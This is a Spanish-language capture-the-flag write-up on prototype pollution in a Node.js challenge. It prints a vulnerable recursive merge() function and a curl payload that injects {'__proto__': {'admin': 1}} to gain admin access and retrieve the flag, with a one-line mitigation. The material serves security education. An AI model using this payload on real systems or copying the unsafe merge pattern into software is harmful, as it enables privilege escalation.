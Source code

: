 aqui el problema es la funcion merge():

```javascript

//copia recursivamente cada atributo de un objeto a otro, TODO! hasta el __constructor__ y el __proto__

function merge(a, b) {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
```

la ruta **/signup** recibe del body una estructura JSON que definamos sin validar la entrada. Todo lo que entre lo clona a un objeto vacio **{}**, recordemos que este tipo de asignacion comparte todos el mismo prototipo. Como el objeto **admin** esta definido de igual manera, todo lo que pasemos en el ** __proto__** de la entrada JSON, pasara al objeto **admin**.

la ruta **/getFlag** recibe en el objeto **admin** la entrada de la cookies que le pasemos y verifica un atributo llamado **admin** que sea igual a **1** (define que eres administrador), no importa que pasemos en las cookies en esta ruta, lo importante es pasar el atributo **admin** junto con ** __proto__** en la ruta **/signup** y eso se guardara tambien en en el objeto **admin**.

entonces explotemos:

```bash
curl -vv --header 'Content-type: application/json' -d '{"__proto__": {"admin": 1}}' 'http://0.0.0.0:4000/signup'
```

con esto y como se hereda lo declarado en un objeto con **{}**, el objeto **admin** tendra tambien el valor **admin=1**

```javascript
admin.admin; //1
```

por lo que ahora si solicitamos la flag, tenemos el nivel de acceso como administrador:

```bash
curl -vv 'http://0.0.0.0:4000/getFlag'

//hackim19{}
```

## mitigaciones

### utilice bibliotecas de código abierto seguras cuando establezca de forma recursiva las propiedades del objeto.
